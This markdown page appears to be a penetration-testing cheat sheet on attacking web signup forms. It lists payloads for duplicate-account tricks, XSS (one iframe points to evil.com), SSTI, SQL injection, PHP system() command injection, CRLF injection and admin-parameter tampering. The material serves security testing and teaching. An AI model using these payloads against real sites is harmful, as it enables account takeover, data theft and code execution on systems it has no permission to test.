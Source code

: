 ```yaml
---
title: Web Registration (Signup) Attack
description: Registration mechanism might be vulnerable to compromise.
tags:
    - Web
refs:
date: 2024-02-08
draft: false
---
```


## Register with the Same Username/Email Address as Existing User

We might be able to register the same username/email address as the existing user. It may affect the web server so be careful when testing.  
Here are examples of username to register.

```bash
admin
administrator
root
```

Alternatively, it’s worth to try various approach to register.

```bash
# Insert null byte
admin\0
admin%00

# Insert a space before username
 admin
%20admin

# Insert a space after username
admin 
admin%20

# Insert spaces around username
 admin 
%20admin%20

# Replace uppercase/lowercase
Admin
aDmIn

# Overflow (we need to find the longest characters that can be registered)
xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxadmin
```

<br />

## Register Malicious Username/Email Address

### XSS

We might be able to inject XSS in username when registration.  

```bash
john<script>alert(1)</script>
john</span><script>alert(1)</script>
john<iframe src=https://evil.com></iframe>

# Combine with overflow character length
xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx<script>alert(1)</script>
```

### SSTI

It’s worth to try **SSTI** payloads if the website uses frameworks/template engines such as **Flask Pug, Angular, etc**. Register username with the following **SSTI**.

```html
{{2*3}}
{2*3}
${2*3}
2*3

{{ `<script>alert(1)</script>` }}
{% debug %}
```

### SQLi

If website queries the database items using username, we might be able to inject SQL command in the username. Register username with the following **SQLi**.

```html
test' or 1=1--
test' or '1'='1'--

test' union select null,null--
test' union select null,null,null--
```

### PHP Injection

```bash
john<?php echo system('id');?>
john<?php system('ping -c 1 10.0.0.1');?>
```

### CRLF (%0d%0a)

Inserting CRLF code (`%0d%0a`) after the username or email, it may cause unexpected behavior.

```bash
username=john%0d%0a&password=mypassword123
email=attacker%40evil.com%0d%0a&password=mypassword123
```

<br />

## Broken Access Control

We might be able to break the access restrictions on target page by adding specific params when registration.

```bash
username=test&password=test&admin=true
username=test&password=test&isAdmin=true
username=test&password=test&admin=1
username=test&password=test&usertype=1
```
